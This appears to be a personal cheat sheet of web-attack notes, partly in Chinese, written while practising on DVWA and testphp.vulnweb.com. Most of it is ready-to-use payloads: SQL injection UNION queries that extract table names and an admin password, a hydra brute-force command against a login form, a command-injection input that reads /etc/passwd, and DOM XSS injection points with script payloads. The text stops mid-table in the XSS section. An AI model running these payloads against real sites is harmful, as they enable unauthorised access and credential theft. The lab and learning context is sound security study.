 https://hackmd.io/cbEI1z1OSeG9SkeFnlIXGw


[dvwa WRITE UP](https://jckling.github.io/2020/04/23/Security/DVWA/2.%20Command%20Injection/)

# SQL

@@hostname
@@log
database()
version()
system_user()
table_name()

- http://testphp.vulnweb.com/listproducts.php?cat=1%20union%20select%201,schema_name,3,4,5,6,7,8,9,10,11%20from%20information_schema.schemata
- http://testphp.vulnweb.com/listproducts.php?cat=1%20-1%20union%20all%20select%201,2,3,4,5,6,7,8,table_name,10,11%20from%20information_schema.tables
- http://testphp.vulnweb.com/listproducts.php?cat=1 AND 1=1 UNION ALL SELECT 1,table_name,3,4,5,6,7,8,9,10,11 from information_schema.tables where table_schema='acuart'

## UNION SELECT
For a UNION query to work, two key requirements must be met:

1. The individual queries must return the same number of columns.
2. The data types in each column must be compatible between the individual queries.

```sql=!
http://10.0.2.5:65412/?id=2 UNION ALL SELECT NULL, NULL, NULL, (SELECT id||','||username||','||password FROM users WHERE username='admin')
```

### 1. check number of columns 

1.1 ORDER BY
```sql=
' ORDER BY 1
' ORDER BY 1,2,3
``` 


1.2 SELECT NULL

```sql=
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

### SQLMAP

sqlmap -r /path/to/request.txt

----

# BRUTE FORCE
```bash=!
hydra -V -l admin -P rockyou.txt 192.168.0.247 -s 8080 http-get-form "/vulnerabilities/brute/:username=admin&password=testwe&Login=Login:Username and/or password incorrect.:H=Cookie\:security=low; PHPSESSID=8rnt1s7r14fth7ln4acpcj77r5"
```

----

# Command Injection

127.0.0.1|cat /etc/passwd

| 符号 | 说明 |
| --- | --- |
& | 前一条命令在后台运行
&& | 当且仅当前一条命令执行成功后执行下一条命令
\|\| | 当且仅当前一条命令执行失败后执行下一条命令
\| | 将前一条命令的标准输出（stdout）作为下一条命令的输入
; | 无论前一条指令是否执行成功，都执行下一条指令

有些被過濾後可以嘗試多加幾個 OR ENCODING

# FILE INCLUSION

allow_url_include 和 allow_url_fopen

shellfire?

----

# XSS

## DOM 

![image](https://hackmd.io/_uploads/SyP5_iYTyl.png)

常見 DOM XSS 插入點整理表：
類別 |	插入點 |	說明與範例
---|---|---
URL 相關	| location.search |	?q=<script>alert(1)</script>
x|location.hash |	#<img src=x onerror=alert(1)>
x|location.href	| 整個 URL，可包含注入片段
x|document.URL	| 與 location.href 相同
x|document.documentURI	| URL，可控
x|document.referrer |	來自前一頁的 URL，可被攻擊者控制
表單資料 |	window.name	| window.open 開啟頁面時傳遞的資料
x|history.pushState() / replaceState() |	若用來改變網址而未過濾，會成為攻擊點
x|Storage |	localStorage / sessionStorage |	若寫入來自 URL 或使用者資料，讀出時直接用進 HTML 容易出問題
x|Cookie | document.cookie | 通常不是主因，但也能從這取值進 DOM
錯誤處理 | window.onerror| 攔截錯誤資訊時如果直接輸出也可能 XSS
其他|postMessage 接收到的資料 | 若接收到跨來源訊息並未驗證其內
